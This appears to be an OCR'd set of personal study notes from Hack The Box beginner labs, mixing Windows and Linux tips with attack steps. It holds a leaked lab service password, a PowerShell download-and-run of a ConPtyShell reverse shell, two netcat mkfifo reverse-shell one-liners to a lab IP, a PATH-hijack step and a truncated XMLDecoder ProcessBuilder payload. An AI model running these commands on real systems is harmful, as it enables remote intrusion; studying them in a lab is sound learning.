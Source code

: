 Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc

M3g4c0rp123

-OutFile c:\\Users\Public\\winPEASany.exe

* grep substitute in Windows `C:\> netstat -na | findstr /c:"PORT"`

* To view hidden file in Windows `dir [DIR NAME] /a:h /b /s`

dir /a:h /b /s

IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.15.189 3001


* Oopsie  

* Why I got stuck? 
  * I didn't think of changing the id in the url I kept trying to guess the Access ID when in reality I could access it by decreasing the id in the url when I'm viewing the access ID of the guest user. 


rm /tmp/f;mkfifo /tmp/f;/bin/cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.189 1234 >/tmp/f


* `find directory-location -group {group-name} -name {file-name}` this syntax is used to find the files that belong to the group specified.

* SUID (Set owner User ID)

* Add new path to the $PATH variable 
 `export PATH=/some/new/path:$PATH`

export PATH=/tmp:$PATH

af13b0bee69f8a877c3faf667f7beacf

* Why does UDP nmap take forever?  
  <blockquote>
  UDP scanning is likely to be slower than TCP due to the differences in how the protocol works (i.e. with TCP it's easier to establish that a port is open due to the three-way handshake).
  </blockquote>


* UDP nmap results  

```
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
69/udp open|filtered tftp  
```


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.189 1234 >/tmp/f 



<?xml version="1.0" encoding="UTF-8"?>
<java>
	<object class="java.lang.ProcessBuilder">
		<array class="java.lang.String" length="2" >
			<void index="0"> 
				<string>cmd.exe</string>								
			</void>		
			<void index="1"> 